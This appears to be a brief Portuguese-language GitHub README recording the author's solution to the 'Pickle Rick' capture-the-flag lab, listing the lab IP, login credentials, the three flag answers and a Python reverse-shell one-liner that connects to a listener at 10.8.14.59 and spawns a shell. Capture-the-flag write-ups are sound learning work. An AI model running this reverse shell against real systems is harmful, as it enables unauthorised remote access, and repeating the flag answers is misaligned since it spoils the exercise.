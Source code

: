 # HackerMindSet

Tentando fazer o Pickle Rick:


IP = 10.10.244.103


![fds](https://github.com/user-attachments/assets/8e80809f-2319-4c01-98f8-ba822ad725c4)



http://10.10.244.103/

http://10.10.244.103/login.php

![Screenshot_1](https://github.com/user-attachments/assets/0edcef3b-cb38-4af0-b674-54c704a9ad98)

Username: R1ckRul3s

Password:Wubbalubbadubdub

![Screenshot_2](https://github.com/user-attachments/assets/37566f13-79b6-4793-9c5a-4d9eadc991e9)

primereiro ingrediente: mr. meeseek hair

![Screenshot_3](https://github.com/user-attachments/assets/96434c69-f95a-4292-8da8-4a799d5699b9)

#FAZER REVERSE SHELL
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.14.59",6969));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' - (NÃO COLOCAR EM UM PROGRAMA)

![Screenshot_4](https://github.com/user-attachments/assets/1bbaac53-52db-4c9a-8d33-bd61a8a97dfa)

segundo ingrediente: 1 jerry tear


terceiro ingrediente: fleeb juice

#FINALIZADO

![Screenshot_5](https://github.com/user-attachments/assets/848c8128-5e50-44ff-9e50-d87e66a6b3a3)

#Aqui segue o mapeamento da conclusão de um CTF, tudo isso me maneira resumida

